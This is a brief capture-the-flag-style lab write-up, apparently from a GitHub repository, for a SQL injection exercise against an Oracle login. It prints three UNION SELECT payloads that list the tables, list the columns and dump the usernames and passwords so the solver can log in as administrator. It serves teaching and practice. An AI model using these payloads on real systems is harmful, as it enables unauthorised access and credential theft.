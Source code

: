 ### Ten Exercise 👆


![problem.PNG](/assets/SQLi/Ten/problem.PNG)


#### **To do**

```
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.  
```

#### Remember, this database is Oracle
1. List all tables
```sql
' union select NULL,table_name from all_tables-- -
```

**Output**

![tables.PNG](/assets/SQLi/Ten/tables.PNG)


2. Search table **User** and list this columns
```sql
' union select NULL, column_name from all_tab_columns where table_name='USERS_ATFDQF'-- -
```

![columns.PNG](/assets/SQLi/Ten/columns.PNG)


3. List content of table **Users**
```sql
' union select NULL, PASSWORD_HTUZCJ || USERNAME_LSBNON from USERS_ATFDQF
```

**Output**
![cred.PNG](/assets/SQLi/Ten/creds.PNG)


4. Login how **administrator**